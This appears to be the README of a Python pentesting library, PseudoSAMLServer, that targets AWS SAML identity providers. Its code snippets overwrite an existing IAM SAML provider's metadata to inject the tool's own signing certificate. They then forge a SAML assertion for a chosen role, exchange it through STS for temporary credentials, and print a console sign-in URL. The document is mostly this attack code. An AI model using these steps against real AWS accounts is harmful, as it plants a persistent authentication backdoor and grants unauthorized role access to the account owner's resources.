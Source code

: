 # PseudoSAMLServer

PseudoSAMLServer is a small python library to aid in pentesting AWS SAML providers.

## Getting Started

Generate a provider and print the armored certificate data.
```py
import saml

saml.generate_provider()
print(saml.get_certificate())
```

Inject PseudoSAMLServer metadata into an existing metadata document.
```py
import boto3

from generate_saml_metadata import generate_saml_metadata
from inject_metadata import inject_metadata


def func(saml_provider_arn, certificate):
    client = boto3.client('iam')
    old = client.get_saml_provider(
        SAMLProviderArn=saml_provider_arn)['SAMLMetadataDocument']
    client.update_saml_provider(
        SAMLProviderArn=saml_provider_arn,
        SAMLMetadataDocument=inject_metadata(
            old,
            generate_saml_metadata(certificate=certificate)))
```

Print a signin URL.
```py
import boto3

from generate_saml_response import generate_saml_response
from generate_signin_url import generate_signin_url


def func(role_arn, saml_provider_arn, session_name):
    response = generate_saml_response(role_arn, saml_provider_arn, session_name)
    credentials = boto3.client('sts').assume_role_with_saml(
        RoleArn=role_arn,
        PrincipalArn=saml_provider_arn,
        SAMLAssertion=response)['Credentials']
    print(generate_signin_url(credentials))
```
